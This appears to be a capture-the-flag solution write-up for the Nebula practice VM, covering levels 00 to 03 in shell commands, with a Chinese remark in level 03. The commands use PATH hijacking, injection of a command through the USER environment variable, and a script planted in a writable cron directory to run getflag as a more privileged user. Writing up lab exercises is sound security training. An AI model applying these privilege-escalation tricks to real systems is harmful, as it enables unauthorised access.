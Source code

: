 #Exploit Exercises Nebula
##Level00
```
$ cat /etc/passwd | grep flag00
flag00:x:999:999::/home/flag00:/bin/sh
$ find / -uid 999 2>/dev/null
```

##Level01

```
$ cd ~;mkdir bin;cd bin;echo '/bin/getflag > /tmp/level01.txt' > echo; chmod +x echo
$export PATH=/home/level01/bin:$PATH
$ /home/flag01/flag01
$ cat /tmp/level01.txt
```

##Level02
```
$ export USER=";/bin/getflag > /tmp/level02.txt;/bin/echo"
$ /home/flag02/flag02
$ cat /tmp/level02.txt
```

##Level03
```
$ cd /home/flag03/
$ echo '/bin/getflag > /tmp/level03.txt' > writable.d/hack; chmod +x writable.d/hack
```
等到hack被删除

```
$ cat /tmp/level03.txt
```

##Level04
